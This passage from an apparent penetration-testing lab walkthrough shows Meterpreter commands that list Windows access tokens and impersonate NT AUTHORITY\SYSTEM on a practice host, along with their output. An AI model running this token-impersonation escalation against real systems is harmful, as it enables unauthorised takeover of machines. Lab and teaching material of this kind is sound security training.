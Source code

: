 Let's see what tokens are available:

``` plain
meterpreter > list_tokens
Usage: list_tokens <list_order_option>

Lists all accessible tokens and their privilege level

OPTIONS:

    -g        List tokens by unique groupname
    -u        List tokens by unique username


meterpreter > list_tokens -u
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
NT AUTHORITY\LOCAL SERVICE
NT AUTHORITY\NETWORK SERVICE
NT AUTHORITY\SYSTEM
WIN-D7GA2J1M0TU\wingoat

Impersonation Tokens Available
========================================
NT AUTHORITY\ANONYMOUS LOGON
```

We are interested in the delegation tokens that are created by interactive logins. And among them..the SYSTEM token that we want!

``` plain
meterpreter > impersonate_token 
Usage: impersonate_token <token>

Instructs the meterpreter thread to impersonate the specified token. All other actions will then be made in the context of that token.

Hint: Double backslash DOMAIN\\name (meterpreter quirk)
Hint: Enclose with quotation marks if name contains a space

meterpreter > impersonate_token 'NT AUTHORITY\SYSTEM'
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[+] Delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

### Remote Desktop
